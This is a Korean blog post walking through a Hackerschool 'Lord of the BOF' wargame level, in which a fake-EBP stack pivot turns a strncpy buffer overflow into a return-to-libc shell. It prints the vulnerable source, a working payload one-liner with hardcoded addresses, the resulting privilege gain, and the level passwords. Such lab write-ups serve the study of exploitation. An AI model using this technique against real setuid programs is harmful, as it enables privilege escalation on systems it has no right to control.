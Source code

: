 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 LEVEL16 (Assassin -> Zombie_assassin) : Fake Ebp"
date: 2015-11-30 22:03:10
category: wargame
tags:  bof 
---
```


- id = assassin
- pw = pushing me away

<!--more--> 

## 1. 문제 : zombie_assassin.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - zombie_assassin
        - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack retbayed you!\n");
                exit(0);
        }

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

        // strncpy instead of strcpy!
        strncpy(buffer, argv[1], 48);
        printf("%s\n", buffer);
}
```

### 1.1 변경된 코드

buffer overflow 를 위한 strcpy() 가 이번에는 strncpy(X,X,48)로서 48bytes = buffer[40] + sfr[4] + lr[4] 만큼만 copy 를 한다.

```c
// strncpy instead of strcpy!
strncpy(buffer, argv[1], 48);
```

## 2. 공격 준비

(Level12 도 그랬지만… EBP 를 이용한 공격에 익숙하지 않아서 그런지… 처음에는 너무 어려웠지만… 참 재밌는 문제다…)

### 2.1 공격 방법 고민

이번 문제에서는 ret() 만 하고 오면 되었는데, 이번에는 LR 뒤 값을 copy 할 수 없다. 즉, stack 을 원하는대로 구성을 할 수 없다는 것이다. 그럼 어떻게 공격할 수 있을까 ? 그럼 모든 공격 코드를 ROP 로 작성해야할까 ?

다행히… 힌트가 있다. fake ebp. 12단계 : (Golem -> Darkknight) : Sfp와 같이 ebp 를 crash 한 다음에 흐름을 바꾸어야 하는 것 같다.

### 2.2 Stack 구성

```
[ Buffer[40] ][ SFR ][ LR ][ ...]
= [4Bytes][ system() ][ exit() ][ /bin/sh ][NOP 28Bytes][ SFR ][ leave() ]
     /|\                                                    |
      |-----------------------------------------------------|

- system() : 0x40058ae0
- exit()   : 0x400391e0
- /bin/sh  : 0x400fbff9
- NOP
- SFR
- leave()  : 0x080484df

./zombie_assassin "`python -c 'print "\xe0\x8a\x05\x40" + "\xe0\x91\x03\x40" + "\xf9\xbf\x0f\x40" + "\x90"*28 + "\x4c\xfc\xff\xbf" + "\xdf\x84\x04\x08"'`"
```

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage16-1.png)

## 3 Exploit

```bash
./zombie_assassin "`python -c 'print "\xe0\x8a\x05\x40" + "\xe0\x91\x03\x40" + "\xf9\xbf\x0f\x40" + "\x90"*28 + "\x4c\xfc\xff\xbf" + "\xdf\x84\x04\x08"'`"   
à@à@ù¿@Lü ¿ß

bash$ id
uid=515(assassin) gid=515(assassin) euid=516(zombie_assassin) egid=516(zombie_assassin) groups=515(assassin)
```

## 4. 다음 단계 정보

```bash
bash$ id
uid=515(assassin) gid=515(assassin) euid=516(zombie_assassin) egid=516(zombie_assassin) groups=515(assassin)

bash$ my-pass
euid = 516
no place to hide
```

